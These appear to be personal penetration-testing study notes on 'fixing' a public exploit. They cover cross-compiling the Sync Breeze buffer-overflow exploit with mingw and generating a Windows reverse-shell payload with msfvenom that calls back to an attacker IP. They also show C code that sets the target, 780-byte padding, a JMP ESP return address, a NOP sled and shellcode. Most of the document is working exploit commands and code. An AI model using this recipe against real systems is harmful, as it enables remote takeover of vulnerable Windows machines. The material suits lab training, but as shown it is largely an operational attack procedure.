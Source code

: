 # Exploit Fixing

## Python Installer

* No cross compilation
* Bundles pyhton program for the platform with dependencies 

```bash
pip install -U pyinstaller
pyinstaller your-program.py
```

## Cross-Compilation

* Compile Windows Programs on Linux 

* compiler
* input file
* -o output file
* -l link libraries e.g. windows sock

```bash
sudo apt install mingw-w64
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

# not working on kali arm64 apple
#sudo dpkg --add-architecture i386
#sudo apt update
#sudo apt install winehq-stable
#wine syncbreeze_exploit.exe
```

Compile with GCC

```bash
gcc linux-42341.c syncbreeze
./syncbreeze 
```

## Fix Buffer Overrun Exploit

Always create SHELL CODE and don't trust existing shell code

* -e x86 encoder
* -f c source output
* -b, bad-chars list to avoid "\x00\x0a\x0d\x25\x26\x2b\x3d"

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

Fix exploit Sync Breeze

* rewrite socket connection from windows to linux!
* set target IP and PORT
* add 780+1 (null terminator)
* ret override with JMP ESP (exended stack pointer)
* set NOP SLIDE + SHELLCODE

```c
#define TARGET_IP "192.168.205.10"
#define TARGET_PORT 80

int initial_buffer_size = 780+1;
    char *padding = malloc(initial_buffer_size);
    memset(padding, 0x41, initial_buffer_size);
    memset(padding + initial_buffer_size - 1, 0x00, 1);
    // unsigned char retn[] = "\xcb\x75\x52\x73";  //msvbvm60.dll not present
    unsigned char retn[] = "\x83\x0c\x09\x10";   // 0x10090c83 JMP ESP in DLL
    unsigned char shellcode[] =
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP SLIDE
    "\xdb\xc9\xbf\x69\xf5\x12\xbb\xd9\x74\x24\xf4\x5b\x33\xc9" // shellcode
    "\xb1\x52\x31\x7b\x17\x03\x7b\x17\x83\xaa\xf1\xf0\x4e\xd0"
    ....
    "\x45\x87\xbe\x32\x40\xc3\x78\xaf\x38\x5c\xed\xcf\xef\x5d"
    "\x24";
```
